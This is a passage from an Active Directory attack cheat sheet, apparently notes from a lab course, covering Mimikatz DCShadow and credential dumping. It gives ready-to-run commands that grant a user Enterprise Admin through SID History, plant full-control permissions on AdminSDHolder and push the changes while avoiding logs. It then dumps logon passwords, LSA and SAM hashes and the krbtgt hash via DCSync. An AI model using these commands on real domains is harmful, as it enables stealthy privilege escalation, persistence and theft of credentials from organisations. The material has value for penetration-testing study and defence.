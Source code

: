 Then, from any machine, use Mimikatz to stage the DCShadow attack.

```
# Set SPN for user
lsadump::dcshadow /object:root355user /attribute:servicePrincipalName /value:"SuperHacker/ServicePrincipalThingey"

# Set SID History for user (effectively granting them Enterprise Admin rights)
lsadump::dcshadow /object:root355user /attribute:SIDHistory /value:S-1-5-21-280534878-1496970234-700767426-519

# Set Full Control permissions on AdminSDHolder container for user
## Requires retrieval of current ACL:
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl

## Then get target user SID:
Get-NetUser -UserName student355 | select objectsid

## Finally, add full control primitive (A;;CCDCLCSWRPWPLOCRRCWDWO;;;[SID]) for user
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:O:DAG:DAD:PAI(A;;LCRPLORC;;;AU)[...currentACL...](A;;CCDCLCSWRPWPLOCRRCWDWO;;;S-1-5-21-1874506631-3219952063-538504511-45109) 
```

Finally, from either a DA session OR a session as the user provided with the DCShadowPermissions before, run the DCShadow attack. Actions staged previously will be performed without leaving logs 😈

```
lsadump::dcshadow /push 
```

Post-Exploitation
-----------------

### Dumping secrets with Mimikatz

```
# Dump logon passwords
sekurlsa::logonpasswords

# Dump all domain hashes from a DC
## Note: Everything with /patch is noisy as heck since it _writes_ to LSASS 🚩
lsadump::lsa /patch

# Dump only local users
lsadump::sam

# DCSync (requires 'ldap' SPN)
lsadump::dcsync /user:dcorp\krbtgt /domain:dollarcorp.moneycorp.local 
```

Windows Credential Vault dumping

> I’ve had some issues using this with `Invoke-Mimikatz.ps1`. Try with native Mimikatz if having issues.
